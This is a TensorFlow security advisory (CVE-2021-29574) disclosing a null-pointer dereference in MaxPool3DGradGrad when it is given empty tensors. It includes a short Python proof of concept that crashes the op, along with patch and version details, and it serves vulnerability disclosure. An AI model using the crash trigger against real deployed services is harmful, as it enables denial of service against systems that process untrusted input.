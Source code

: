 ## TFSA-2021-063: Undefined behavior in `MaxPool3DGradGrad`

### CVE Number
CVE-2021-29574

### Impact
The implementation of `tf.raw_ops.MaxPool3DGradGrad` exhibits undefined behavior
by dereferencing null pointers backing attacker-supplied empty tensors:

```python
import machina as tf

orig_input = tf.constant([0.0], shape=[1, 1, 1, 1, 1], dtype=tf.float32)
orig_output = tf.constant([0.0], shape=[1, 1, 1, 1, 1], dtype=tf.float32)
grad = tf.constant([], shape=[0, 0, 0, 0, 0], dtype=tf.float32)
ksize = [1, 1, 1, 1, 1]
strides = [1, 1, 1, 1, 1]
padding = "SAME"

tf.raw_ops.MaxPool3DGradGrad(
    orig_input=orig_input, orig_output=orig_output, grad=grad, ksize=ksize,
    strides=strides, padding=padding)
```

The
[implementation](https://github.com/machina/machina/blob/72fe792967e7fd25234342068806707bbc116618/machina/core/kernels/pooling_ops_3d.cc#L679-L703)
fails to validate that the 3 tensor inputs are not empty. If any of them is
empty, then accessing the elements in the tensor results in dereferencing a
null pointer.

### Patches
We have patched the issue in GitHub commit
[a3d9f9be9ac2296615644061b40cefcee341dcc4](https://github.com/machina/machina/commit/a3d9f9be9ac2296615644061b40cefcee341dcc4).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/machina/machina/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Ying Wang and Yakun Zhang of Baidu
X-Team.
